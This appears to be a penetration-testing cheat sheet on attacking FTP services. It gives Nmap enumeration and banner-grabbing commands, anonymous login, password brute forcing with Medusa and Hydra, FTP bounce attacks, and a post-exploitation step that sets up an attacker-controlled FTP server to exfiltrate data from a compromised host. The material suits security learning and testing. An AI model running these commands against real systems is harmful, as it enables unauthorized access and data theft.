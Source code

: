 ```yaml
---
layout: post
title: "FTP Overview"
---
```


# Basic Information

The [File Transfer Protocol](https://en.wikipedia.org/wiki/File_Transfer_Protocol) (FTP) is a standard protocol used to transfer files across a network.
By default, FTP listens on port **TCP/21**.

```shell-session
PORT   STATE SERVICE
21/tcp open  ftp
```

After gaining access to the FTP Service, we can search for sensitive or critical information.

We can download and upload files with commands the **GET**, **MGET** and **PUT**, **MPUT** commands. _Note that depending on FTP client, commands can vary._

# Enumeration

## Nmap

Standard `Nmap` flags `-sC` and `-sV` provide basic FTP enumeration.

The `-sC` default scripts includes the [ftp-anon](https://nmap.org/nsedoc/scripts/ftp-anon.html) that checks if a FTP server allows anonymous logins and the version enumeration flag `-sV` provides information about FTP services, like the FTP banner.

```shell-session
sudo nmap -sC -sV -p 21 {IP}
```

More scipts can be found [here](https://nmap.org/nsedoc/scripts/)

```shell-session
nmap --script=ftp-anon,ftp-bounce,ftp-brute,ftp-libopie,ftp-proftpd-backdoor,ftp-syst,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221,tftp-enum -p 21 {IP}
```

```shell-session
nmap --script=ftp-* -p 21 $ip
```

## Banner Grabbing

To quickly find the version we can grab a Banner.

```shell-session
nc -vv -p 21 {IP}
```

```shell-session
telnet {IP} 21
```

```shell-session
nmap -sV -script banner -p21 -Pn {IP}
```

Once the Banner discloses the the version running on FTP server, we can use `searchsploit` to hopefully get some already existing exploits.

# Connect

FTP:
```shell-session
ftp {IP} {PORT}
```

lftp:
```shell-session
lftp {IP}
```

Web Browser:
```shell-session
ftp://username:password@{IP}
```

## Anonymous Authentication

The protocol supports anonymous access, where users can log in with a `anonymous` username and no password.

```shell-session
ftp {IP}
                     
Connected to {IP}.
220 (vsFTPd 2.3.4)
Name ({IP}:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

# Attack Vectors

## Brute Forcing

If there is no anonymous authentication available, we can also try to brute-force the login for the FTP services.
There are many different tools to perform a brute-forcing attack.

**Note:** Most applications today prevent brute-forcing attacks. A more effective method is Password Spraying.

### Brute Forcing with Medusa

```shell-session
medusa -u user -P /wordlists/rockyou.txt -h {IP} -M ftp 
```

* `-u` - specify username
* `-U` - list of usernames
* `-P` - list of passwords
* `-M` - protocol (FTP)
* `-h` - target hostname or IP address


### Brute Forcing with Hydra
```shell-session
hydra -l user -P /wordlists/rockyou.txt -f {IP} ftp
```

* `-l` - specify username
* `-L` - list of usernames
* `-P` - list of passwords
* `-f` - exit after the first found user/password pair
*      - specify service (FTP)

### Brute Forcing with Nmap

It is also possible to perform brute force on FTP with `Nmap` script:

```shell-session
nmap -p 21 --script ftp-brute {IP}
```

## FTP Bounce Attack

FTP Bounce Attack is a network attack that exploits the FTP protocol's ability to redirect traffic, masking the attack source. 
It uses an FTP server's **PORT** command to route data to a third party, making the attack seem to originate from the server.

[https://www.geeksforgeeks.org/what-is-ftp-bounce-attack/](https://www.geeksforgeeks.org/what-is-ftp-bounce-attack/)

[FTP Bounce Attack](https://www.linux.org/threads/nmap-ftp-bounce-attack.4493/)

### Attack Execution

1. Find an FTP server that doesn't restrict the **PORT** command

2. Connect to the FTP server
```shell-session
ftp {IP}
```

3. Use **PORT** to redirect data to the target
```shell-session
quote PORT target_IP,port
```

4. Initiate a file transfer to the target
```shell-session
get sample-filename
```

This requests a file from the FTP server, which is then sent to the specified target, exploiting the bounce capability.

### Bounce Attack with Nmap

The `Nmap` `-b` flag can be used to perform an FTP bounce attack

```shell-session
nmap -b {FTP_SERVER_IP}:{PORT} {TARGET_NETWORK}
```

```shell-session
nmap -Pn -v  -p 80 -b anonymous:password@10.10.10.11 172.15.0.2
```

Modern FTP servers include protections that, by default, prevent this type of attack, but if these features are misconfigured, the server can become vulnerable.

### Bounce Attack with Metasploit

Metasploit offers module that leverage FTP bounce.

```shell-session
use auxiliary/scanner/ftp/ftp_bounce
set RHOSTS {FTP_IP}
set RPORT {FTP_PORT}
run
```

This scans through the vulnerable FTP server to find open ports on other systems.

## Post-Exploitation File Transfer

After getting a foothold in target system we usually want to transfer more files in, or exfiltrate data.
My favourite way is to set up FTP server.

```shell-session
sudo python3 -m pyftpdlib --port 21 --write
```

Connect to it on target system and transfer whatever is needed.

```powershell
C:\> ftp {MY_IP}
User: anonymous
Password: anonymous
ftp> binary
ftp> put sample_file.txt
```

~